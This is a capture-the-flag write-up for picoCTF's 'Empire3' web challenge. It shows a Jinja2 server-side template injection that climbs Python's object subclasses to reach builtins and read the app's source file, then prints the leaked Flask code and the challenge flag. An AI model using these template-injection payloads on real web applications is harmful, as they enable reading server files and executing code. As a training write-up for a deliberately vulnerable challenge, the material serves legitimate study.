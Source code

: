 # Empire3
Web Exploitation, 500 points

## Description:
> Agent 513! One of your dastardly colleagues is laughing very sinisterly! Can you access his todo list and discover his nefarious plans?


## Solution: 

This is the follow-up for [Empire2](Empire2.md).

We'll use the same solution that worked for the previous challenge:

```console
root@kali:/media/sf_CTFs/pico/Empire3# python shell.py
Logged in
(Cmd) send 4*4
Sending: '{{4*4}}'

16

(Cmd) send ''.__class__.mro()[1].__subclasses__()[157]()._module.__builtins__['open'](''.__class__.mro()[1].__subclasses__()[157]()._module.__builtins__.__import__('os').path.join('app', '__init__.py')).read
()
Sending: '{{''.__class__.mro()[1].__subclasses__()[157]()._module.__builtins__['open'](''.__class__.mro()[1].__subclasses__()[157]()._module.__builtins__.__import__('os').path.join('app', '__init__.py')).read()}}'

from flask import Flask
from app.config import Config
from flask_sqlalchemy import SQLAlchemy
from flask_login import LoginManager
from flask_bootstrap import Bootstrap
import time,atexit
from apscheduler.schedulers.background import BackgroundScheduler

app = Flask(__name__)
app.config.from_object(Config)
db = SQLAlchemy(app)
login = LoginManager(app)
login.login_view = 'login'
bootstrap=Bootstrap(app)

from app import routes,models

def DB_init(db):
    db.drop_all()
    db.create_all()

    u = models.User(username='jarrett.booz',password_hash='deadbeef',id=1,admin=0,secret='Likes Oreos.', name="Jarrett Booz")
    db.session.add(u)

    u = models.User(username='danny.tunitis',password_hash='deadbeef',id=2,admin=0,secret='Know it all.', name= "Danny Tunitis")
    db.session.add(u)

    c = models.Todo(item='Shrink the moon', user_id=1)
    db.session.add(c)

    c = models.Todo(item='Grab the moon', user_id=1)
    db.session.add(c)

    c = models.Todo(item='Sit on the toilet', user_id=1)
    db.session.add(c)

    c = models.Todo(item='Make 2000 more Pico problems', user_id=2)
    db.session.add(c)

    c = models.Todo(item='Do dastardly plan: picoCTF{cookies_are_a_sometimes_food_8038d44f}', user_id=2)
    db.session.add(c)

    c = models.Todo(item='Buy milk', user_id=2)
    db.session.add(c)

    db.session.commit()

try:
    DB_init(db)
    scheduler = BackgroundScheduler()
    scheduler.add_job(func=DB_init,args=(db,),trigger="interval",hours=2)
    scheduler.start()
    atexit.register(lambda: scheduler.shutdown())
except Exception as e:
    print(e)
```

The flag is related to cookies (`picoCTF{cookies_are_a_sometimes_food_8038d44f}`), so again, this looked like an unintended solution.